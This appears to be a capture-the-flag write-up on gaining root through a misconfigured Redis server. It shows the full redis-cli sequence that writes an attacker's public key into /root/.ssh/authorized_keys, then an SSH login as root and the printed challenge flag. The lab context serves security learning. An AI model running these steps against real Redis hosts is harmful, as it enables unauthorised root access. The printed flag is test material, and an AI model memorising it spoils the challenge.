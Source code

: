 ### Research
That `redis-server` looks interesting. After doing some googling, we learn the following from the official [Redis](https://redis.io/topics/introduction) site.
> Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker. Redis provides data structures such as strings, hashes, lists, sets, sorted sets with range queries, bitmaps, hyperloglogs, geospatial indexes, and streams.

Hmmm. I still don't fully understand what this means. My next idea was to visit [IppSec](https://ippsec.rocks) and see if there were any Redis related exploits from HackTheBox. Luckily, there is, from his video writeup of [Postman](https://www.youtube.com/watch?v=jJnHET1o8ZQ&t=655). Now, if you don't want to spoil that box for yourself, he finds this foothold from [HackTricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis).

### Grab the Flag
We find a lot of ways a misconfigured Redis environment can be leveraged to get command execution and/or privilege escalation. I originally tried dumping the database, but that didn't get me anywhere. However, one other route that sticks out at me is SSH. I'll let you read what HackTricks has to say, but the idea is in the `redis-cli`, you are the `redis` user. If `redis` has write permissions to another user's `authorized_keys` file, you can insert your own public key to ssh as a different user. 

A common misconfiguration across the board is giving service accounts more privilege than it needs. Surely `redis` is somehow able to write to the `root` directory? I'll follow the steps as is from HackTricks, with my own public key.

```bash
user@redlike-32b0e986515748de-bd7ff4dff-2pgnp:~$ (echo -e "\n\n"; echo "[public key cut out for space's sake]"; echo -e "\n\n") > spaced_key.txt
user@redlike-32b0e986515748de-bd7ff4dff-2pgnp:~$ cat spaced_key.txt | redis-cli -x set spaced_key.txt
OK
user@redlike-32b0e986515748de-bd7ff4dff-2pgnp:~$ redis-cli
127.0.0.1:6379> config set dir /root/.ssh
OK
127.0.0.1:6379> config set dbfilename "authorized_keys"
OK
127.0.0.1:6379> save
OK
127.0.0.1:6379> 
```

And in my own VM, I SSH as root to get the flag.
```bash
kali@kali:~/ctf/hacktivitycon/todo$ ssh -i ~/.ssh/id_rsa -p 31875 root@challenge.ctf.games

[trimmed welcome message]

root@redlike-32b0e986515748de-bd7ff4dff-2pgnp:~# whoami;id;hostname;pwd
root
uid=0(root) gid=0(root) groups=0(root)
redlike-32b0e986515748de-bd7ff4dff-2pgnp
/root
root@redlike-32b0e986515748de-bd7ff4dff-2pgnp:~# cat flag.txt
flag{69dc14707af23b728ebd1363715ec890}
```